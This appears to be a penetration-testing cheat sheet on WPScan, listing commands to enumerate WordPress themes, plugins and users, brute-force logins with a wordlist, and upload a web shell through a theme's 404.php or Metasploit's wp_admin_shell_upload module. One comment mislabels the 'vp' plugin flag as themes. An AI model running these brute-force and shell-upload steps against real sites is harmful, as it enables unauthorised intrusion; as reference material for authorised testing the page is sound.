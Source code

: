 ```yaml
---
description: https://www.kali.org/tools/wpscan/
---
```


# 🔍 WPScan

####

```bash
wpscan -h #List WPscan Parameters
wpscan --update #Update WPscan

#Enumerate WordPress using WPscan


wpscan --url "http://<TARGET_IP>" -e t #All Themes Installed

wpscan --url "http://<TARGET_IP>" -e vt #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e p #All Plugins Installed

wpscan --url "http://<TARGET_IP>"  -e vp #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e u #WordPress Users

wpscan --url "http://<TARGET_IP>"  --passwords path-to-wordlist #Brute Force WordPress Passwords

#Upload Reverse Shell to WordPress
http://<IP>/wordpress/wp-content/themes/twentyfifteen/404.php

#Upload using Metasploit
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
msf exploit(wp_admin_shell_upload) > set PASSWORD admin
msf exploit(wp_admin_shell_upload) > set targeturi /wordpress
msf exploit(wp_admin_shell_upload) > exploit
```

<pre class="language-bash"><code class="lang-bash"><strong>#User Enumeration
</strong><strong>wpscan --url https://example/ --enumerate u
</strong>
#Bruteforce
wpscan --url https://example/ --passwords wordlist.txt --usernames samson
</code></pre>

### Additional References:

[https://www.geeksforgeeks.org/wpscan-tool-in-kali-linux/](https://www.geeksforgeeks.org/wpscan-tool-in-kali-linux/)
